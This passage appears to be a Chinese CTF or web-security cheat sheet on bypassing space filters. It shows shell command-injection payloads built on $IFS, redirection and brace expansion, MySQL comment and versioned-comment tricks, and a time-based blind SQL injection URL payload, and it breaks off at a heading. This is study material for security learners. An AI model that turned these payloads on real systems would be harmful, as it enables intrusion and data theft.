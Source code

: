 #### $IFS

```bash
cat${IFS}flag
cat$IFS$9flag
cat$IFS$1flag
```

**绕过原理：**Linux下有一个特殊的环境变量叫做 IFS，叫做内部字段分隔符（internal field separator）。IFS环境变量定义了bash shell用户字段分隔符的一系列字符。默认情况下，bash shell会将下面的字符当做字段分隔符：空格、制表符、换行符。单纯的cat\$IFSxxx，bash解释器会把整个IFSxxx当做变量名，所以导致输不出来结果，然而如果加一个{}就固定了变量名，同理在后面加个$可以起到截断的作用，为什么要用$9呢？因为$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。$1同理

#### < <> {,} %09 %20

```bash
cat<flag
cat<>flag
{cat,flag}
cat%09flag
cat%20flag
```

< 或<>与通配符一起使用时没有回显，使用不能同时使用

用逗号实现空格功能，需要用{}括起来

在PHP环境下可以使用%09(tab)绕过空格

### MySQL下

#### 利用注释绕过

**绕过原理**：/**/是注释符，用注释替换空格

```sql
select/**/column_name/**/from/**/information_schema.tables/**/where/**/table_name="users"
```

补充：

`/* … */`在大部分语言中都一样是注释。这个之中的语句是不被执行的。但MySQL中 为了保持兼容，比如从mysqldump 导出的SQL语句能被其它数据库直接使用，它把一些特有的仅在MySQL上的语句放在 /*! … */ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中它会执行。

`/*!50001 select * from test */;`
这里的50001表示假如 数据库是5.00.01以上版本，该语句才会被推行

#### 利用括号绕过

**绕过原理**：在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```html
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

常用于时间盲注，上面语句表示猜解database（）第一个字符ascii码是否为109，若是则加载延时。from for属于逗号绕过，在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号

#### 利用特殊字符
